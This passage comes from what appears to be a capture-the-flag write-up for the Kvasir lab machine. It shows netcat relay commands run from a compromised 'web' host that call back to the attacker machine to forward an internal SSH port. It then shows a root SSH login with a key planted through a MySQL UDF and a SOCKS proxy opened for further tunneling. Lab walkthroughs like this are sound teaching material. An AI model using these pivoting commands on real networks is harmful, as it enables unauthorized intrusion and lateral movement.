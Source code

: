 *"use with caution"*. I like it already. Ok so I can open a netcat listener, which will open another one on connect listening on a new port. We can then connect to this listener, opening another connection to the ssh server we want to connect to, effectively forwarding the port. Clear as mud!

{{< figure src="/images/kvasir_clear_as_mud.png" >}}

Lets see this in action. First I setup the initial listener on the attacking machine:

```bash
# listen on tcp/4444, re-listening on tcp/222 on a new connection
root@kali:~# nc -lvp 4444 -c "nc -lvp 222"
listening on [any] 4444 ...
```

With the listener setup, lets issue a new `nc` command in the initial shell that I got on `web`, connecting the dots:

```bash
nc 192.168.56.101 4444 -c "nc 192.168.2.200 22"
```

When this runs, the initial listener will see the new connection, and I should have the `tcp/22` of **192.168.2.200** now forwarded locally:

```bash
root@kali:~# nc -lvp 4444 -c "nc -lvp 222"
listening on [any] 4444 ...

# connection comes in from 192.168.1.100
192.168.56.102: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 53870
listening on [any] 222 ...
```

Lets take a look at a updated network diagram, detailing where I am in the network now. The new port forward is denoted in red:

{{< figure src="/images/kvasir_network_graph_2.png" >}}

Lets try and SSH in with the key pair that I generated and loaded using the MySQL UDF:

```bash
root@kali:~# ssh -D 8000 root@127.0.0.1 -p222 -i kvasir_key
Linux db 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov  9 07:13:17 2014 from 192.168.2.100
root@db:~#
```

I added the `-D` option so that I may have a socks proxy to work with should any further tunneling be required. This means now that with the SSH session built, I have a *almost* *direct* connection to the `db` (192.168.2.200) host, as denoted in green below:
